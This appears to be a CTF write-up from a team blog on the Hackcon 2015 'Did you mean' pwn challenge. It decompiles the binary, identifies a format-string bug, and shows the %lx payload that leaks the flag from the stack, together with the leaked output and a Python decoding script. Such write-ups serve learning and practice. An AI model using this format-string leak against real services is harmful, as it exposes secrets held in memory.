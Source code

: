 ```yaml
---
layout: post
title:  "Hackcon 2015: Did you mean"
categories: hackcon2015
tags: ctf pwn
date: 2015-08-20 19:00:00
author: enrico
---
```


> Category: *pwn* - Points: *50*
>
> Description: *Pwnie*

The task provides us with the file [`pwnie`]({{ site.url }}/assets/hackcon2015/pwnie) and an ip and address for a webservice.

    $ file pwnie
    pwnie: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=b87bef02278df740b6c0011e989f39b08ccfc998, not stripped

Let's try to run it:

    $ ./pwnie
    No!

Ok, sorry. Let's check the output of `strings`. The only interesting ones are:

    flag.txt
    The flag's right!
    Did you say:

So it seems that the file `flag.txt` is involved. Let's create it with content: `ABCDEFGHIJKLMNOP` and run the program again. Now the program waits for our input and if we put again `ABCDEFGHIJKLMOP` this happens:

    $ ./pwnie
    ABCDEFGHIJKLMNOP
    The flag's right!

Ok, we have to produce some interesting payload, let's start IDA and decompile the `main`. We also added some comment in the code to highlight the important parts.

{% highlight c %}
...
  v3 = fopen("flag.txt", "r");
  if ( v3 )
  {
    fgets((char *)&v7, 100, v3);  // v7 is the content of v3 (flag.txt)
    fgets(&s, 100, stdin);        // s is the string from the stdin
    v4 = strncmp(&s, (const char *)&v7, 0xAuLL); 
    if ( v4 )   // if they do not match
    {
      v4 = 0;
      puts("Did you say: ");
      fflush(_bss_start);
      __printf_chk(1LL, &s);      // print the user input
      fflush(_bss_start);
    }
    else
    {
      puts("The flag's right!");  // the flag is correct
      fflush(_bss_start);
    }
  }
  else                            // the file does not exist
  {
    v4 = -1;
    puts("No!");
    fflush(_bss_start);
  }
  v5 = *MK_FP(__FS__, 40LL) ^ v9;
  return v4;
}
{% endhighlight %}

There is a *string format exploit* in the line:

    __printf_chk(1LL, &s);

The user input is treated as format string. So we can exploit this to dump the stack and get our flag. Since the program is in 64 bits we need to use the placeholder `%lx` to print a whole memory block. The `fgets` is told to copy 100 bytes, so we can join 33 times `%lx` in order to get more data from the stack.

    $ ./pwnie
    %lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx

The output is:

> 07f7ef00e68707f7ef05c374004847464544434241504f4e4d4c4b4a49a00007f7ef05e45207fff414a69807fff414a6970f63d4e2e40043625786c25ffffffff786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c25786c25786c257839cc7d2e1411990007f7ef001cec50

We can easily spot the part that holds the content of the file stored in little endian:

    4847464544434241504f4e4d4c4b4a49

So the interesting part comes after 26 bits. We can use python to convert the stack into readable data:

{% highlight python %}
data = "07f7ef00e68707f7ef05c374004847464544434241504f4e4d4c4b4a49a00007f7ef05e45207fff414a69807fff414a6970f63d4e2e40043625786c25ffffffff786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c25786c25786c257839cc7d2e1411990007f7ef001cec50"

for i in xrange(26, len(data), 16):
    print repr(data[i:i+16].decode('hex')[::-1])
{% endhighlight %}

The result is:

    'ABCDEFGH'
    'IJKLMNOP'
    'R\xe4\x05\xef\xf7\x07\x00\xa0'
    '\xff\x07\x98\xa6\x14\xf4\xff\x07'

We can use the same technique on the webservice and get the flag: `FORMAT(STR)`.

